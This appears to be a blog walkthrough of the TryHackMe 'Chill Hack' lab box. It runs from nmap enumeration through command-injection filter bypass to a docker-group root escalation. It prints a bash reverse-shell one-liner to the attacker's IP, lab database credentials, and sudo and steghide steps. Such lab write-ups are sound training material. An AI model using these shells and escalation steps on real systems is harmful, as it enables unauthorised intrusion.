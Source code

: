 ```yaml
---
layout: post
title:  "TryHackMe - Chill Hack"
date:   2022-05-03 08:47:00 -0400
categories: tryhackme pentesting cybersecurity
comments: true
---
```


[Chill Hack](https://tryhackme.com/room/chillhack) is an easy-ranked box. Unfortunately, it wasn't the most fun box to do, with a handful of unrealistic and unintuitive stops along the killchain.

## Nmap Enumeration
As ever, the first thing to do is run an nmap scan to see what services are accessible to us on the box. People always have their own methodology for what command line options to use, but here are the ones I went with.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we’re working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oA`: Outputs the result of the command into several file formats. Having a persistent record of the scan to go back to later is always useful.

```bash
nmap -sC -sV -vvv -oA nmap/initial 10.10.86.64
```

It's good to do a quick basic nmap scan of the top 1000 ports first to have a starting point and then run a second more comprehensive scan in the background later. In this case, the first scan gives us pretty much all the information we'll need to proceed.

Nmap finds three open ports: port 21 running FTP, port 22 running SSH, and port 80 hosting an HTTP server.

Thanks to running the default scripts, we also know that the FTP server allows anonymous login and that there's a potentially interesting file sitting on it.

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
```

## FTP/HTTP Enumeration
Since the FTP server is such a low-hanging fruit and it'll be very quick to check out, we'll start there. We can confirm that anonymous login does indeed work on the server, and that the file on it is accessible to us.

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

There's not much else to see there, so we'll move onto the web server. At first glance, the site seems to just be a flat HTML website without much of an attack area, so we'll pass things along to a directory brute force tool (in my case, Feroxbuster) to see if there's anything hidden from us.

Sure enough, Feroxbuster finds a `/secret` directory that seems to have a place for us to input arbitrary shell commands.

![Secret Directory](/assets/images/chillhack/2022-05-03_15-34.png)

## Command Injection
We can deduce from the note on the FTP server that there is some sort of protection in place to keep us from having free rein of the capability. Running `whoami` confirms that we do have the ability to run commands and that we'll be running as the `www-data` user.

![whoami Output](/assets/images/chillhack/2022-05-03_10-38.png)

Next we'll try running `bash -c` to see if we can get a reverse shell that way. Unsurprisingly, we trigger the filter.

![Command Filter](/assets/images/chillhack/2022-05-03_11-02.png)

A common way of bypassing these kinds of filters is escaping characters. Escape characters like `\n` or `\t` can affect how text is formatted, and escaping special characters like `\'` or `\\` lets us use special characters in places where they normally have special meaning. Escaping characters that don't have any special meaning, however, will simply output the character as normal.

![Filter Bypass](/assets/images/chillhack/2022-05-03_11-03.png)

Now that we know we can bypass the filter, we can start building out a reverse shell to give us better access to the box.

```bash
b\ash -c "b\ash -i >& /dev/tcp/10.13.14.52/9001 0>&1"
```

## Privilege Escalation
We land as `www-data` in the `/var/www/html` directory. Poking around there, it we find that there's a second web app sitting in `/var/www/files`. In there, we have a PHP file that includes a MySQL configuration.

```php
$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
```

Unfortunately, that password doesn't work as the `root` password, but we can still poke at the MySQL database. There's a `users` table in the `webportal` database, so we can pull a pair of MD5 hashed passwords.

```
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)
```

MD5 us a very broken hashing algorithm, so we're able to just run them through CrackStation to get the passwords.

![CrackStation Output](/assets/images/chillhack/2022-05-03_11-18.png)

Unfortunately, these passwords don't work on any of the accounts on the box either.

Enumerating the accounts on the box, we have three users outside of `root`: `anurodh`, `apaar`, and `aurick`. Interestingly, we have read access to `apaar`'s home directory. Even more interestingly, there's a shell script called `.helpline.sh` with another command injection vulnerability. And even more interestingly, we can run that script as `apaar`.

```bash
read -p "Enter the person whom you want to talk with: " person
read -p "Hello user! I am $person,  Please enter your message: " msg
$msg 2>/dev/null
```

```
www-data@ubuntu:/$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

If we input `bash` at the `msg` prompt, we land in a bash shell as the `apaar` user. From here we can grab the user flag in the `local.txt` file. We can drop an SSH key in here as well to give us a better, more friendly shell.

## Privesc 2: Electric Boogaloo
Unfortunately, `apaar` doesn't give us a lot of additional permissions, so we'll need to keep poking. Checking `netstat`, there's another service available only to localhost on port 9001 that we can check next.

```
apaar@ubuntu:~$ netstat -lpnut
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 10.10.86.64:68          0.0.0.0:*                           -
```

Since we already have SSH access, we can use SSH port forwarding to look at it on our local machine.

```bash
ssh -i apaar.key -L 9001:127.0.0.1:9001 apaar@10.10.86.64
```

Checking this new port out, it turns out it's running a web server. We're greeted with a login page.

![Login Page](/assets/images/chillhack/2022-05-03_12-54.png)

From the PHP code we found earlier, we know that this app is vulnerable to SQL injection, and from the database dump we know the usernames and passwords to log in. Either way, we get in.

![After Login](/assets/images/chillhack/2022-05-03_12-55.png)

Not much to go on here. We have to take a bit of a leap of faith and investigate the image. Turns out it has some steganography in it.

```
$ steghide info hacker-with-laptop_23-2147985341.jpg
"hacker-with-laptop_23-2147985341.jpg":
  format: jpeg
  capacity: 3.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "backup.zip":
    size: 750.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
                                                                                                                     
$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg 
Enter passphrase: 
wrote extracted data to "backup.zip".
```

The zip has one file, but it's password protected. That's nothing John The Ripper and rockyou.txt can't take care of. The PHP file includes a Base64 encoded password and a reference to Anurodh, which matches one of the usernames we found earlier.

## I Am Root
With the new password, we're able to SSH into the box as the `anurodh` user. It turns out Anurodh is a member of the `docker` group, which could be a potential escalation vector.

```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

With a little help from [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), we can mount the filesystem into a Docker image, which will give us free rein to view whatever files we want, including the root flag in the `proof.txt` file.